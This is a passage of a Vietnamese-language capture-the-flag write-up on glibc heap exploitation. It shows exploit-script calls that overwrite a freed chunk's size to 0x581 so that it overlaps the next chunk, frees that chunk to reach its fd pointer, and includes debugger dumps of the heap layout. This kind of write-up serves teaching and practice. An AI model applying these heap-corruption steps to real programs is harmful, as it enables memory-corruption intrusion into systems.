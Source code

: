 ```c

Top chunk | PREV_INUSE
Addr: 0x55555555d8a0
Size: 0x20761
```

- Vậy giờ khi ta add() 3 chunk mới thì chunk 1 và 2 sẽ liền kề.

```c
add(3,'web','b',0x4f8,"a"*0x4f8,1000)
add(4,'web','c',0x4f8,"c"*0x4f8,1000)
add(5,'web','d',0x78,"b"*0x78,1000)
```

```c
Allocated chunk | PREV_INUSE
Addr: 0x55555555d8a0
Size: 0x501

Allocated chunk | PREV_INUSE
Addr: 0x55555555dda0
Size: 0x501

Allocated chunk | PREV_INUSE
Addr: 0x55555555e2a0
Size: 0x41

Allocated chunk | PREV_INUSE
Addr: 0x55555555e2e0
Size: 0x81

Top chunk | PREV_INUSE
Addr: 0x55555555e360
Size: 0x1fca1
```

- Vậy là khi ta free chunk 4 ta có thể overwirte size chunk 4 bằng cách patch chunk 3 và lừa chương trình rằng chunk 4 có size để cấp phát lớn hơn so với mặc định.

```c
free(4)
patch(3,b"c"*0x4f8+p16(0x581))
free(5)
```

- Mình overwrite size chunk 4 thành 0x581 đủ để bao gồm chunk 5, sau đó free chunk 5 để edit fd.
- Trước khi overwirte size chunk 4:

```c
Allocated chunk | PREV_INUSE
Addr: 0x55555555d8a0
Size: 0x501

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x55555555dda0
Size: 0x501
fd: 0x7ffff7dcdca0
bk: 0x7ffff7dcdca0

Allocated chunk
Addr: 0x55555555e2a0
Size: 0x40

Allocated chunk | PREV_INUSE
Addr: 0x55555555e2e0
Size: 0x81

```